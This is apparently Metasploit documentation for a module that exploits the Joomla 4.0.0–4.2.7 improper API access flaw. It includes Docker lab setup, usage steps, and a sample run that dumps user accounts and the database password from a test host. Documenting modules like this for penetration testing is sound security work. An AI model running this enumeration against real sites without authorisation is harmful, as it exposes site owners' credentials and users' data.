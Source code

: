
## Vulnerable Application

Joomla versions between 4.0.0 and 4.2.7, inclusive, contain an improper API access vulnerability.
This vulnerability allows unauthenticated users access to webservice endpoints which contain
sensitive information. Specifically for this module we exploit the users and config/application
endpoints.

This module was tested against Joomla 4.2.7 running on Docker.

## Install Joomla on Ubuntu 22.04

From https://www.techrepublic.com/article/how-to-deploy-joomla-docker/
```
sudo apt-get install docker.io -y
sudo docker network create joomla-network
sudo docker pull mysql:5.7
sudo docker pull joomla:4.2.7-php8.1-apache
sudo docker volume create mysql-data
sudo docker run -d --name joomladb  -v mysql-data:/var/lib/mysql --network joomla-network -e "MYSQL_ROOT_PASSWORD=PWORD" -e MYSQL_USER=joomla -e "MYSQL_PASSWORD=PWORD" -e "MYSQL_DATABASE=joomla" mysql:5.7
sudo docker volume create joomla-data
sudo docker run -d --name joomla -p 80:80 -v joomla-data:/var/www/html --network joomla-network -e JOOMLA_DB_HOST=joomladb -e JOOMLA_DB_USER=joomla -e JOOMLA_DB_PASSWORD=PWORD joomla
```

Browse to port 80, and finish the installation

## Verification Steps

1. Install the application, and finish the configuration
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/joomla_api_improper_access_checks`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get sensitive information about the users and configuration

## Scenarios

### Version 4.2.7 from Docker

```
└─$ ./msfconsole -qr joomla_improper.rb
[*] Processing joomla_improper.rb for ERB directives.
resource (joomla_improper.rb)> use auxiliary/scanner/http/joomla_api_improper_access_checks
resource (joomla_improper.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (joomla_improper.rb)> set verbose true
verbose => true
resource (joomla_improper.rb)> run
[*] Joomla version detected: 4.2.7
[+] Joomla version 4.2.7 is vulnerable
[*] Attempting user enumeration
[+] Users JSON saved to /root/.msf4/loot/20230416225106_default_1.1.1.1_joomla_users_jso_345565.json
[+] Joomla Users
============

 ID   Super User  Name    Username  Email          Send Email  Register Date        Last Visit Date  Group Names
 --   ----------  ----    --------  -----          ----------  -------------        ---------------  -----------
 400  *           joomla  joomla    none@none.com  1           2023-04-16 23:07:42                   Super Users

[*] Attempting config enumeration
[+] Config JSON saved to /root/.msf4/loot/20230416225106_default_1.1.1.1_joomla_config_js_812393.json
[+] Joomla Config
=============

 Setting      Value
 -------      -----
 db host      joomladb3
 db name      joomla_db
 db password  PWORD
 db prefix    l57cr_
 db prefix    0
 db user      root
 dbtype       mysqli

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
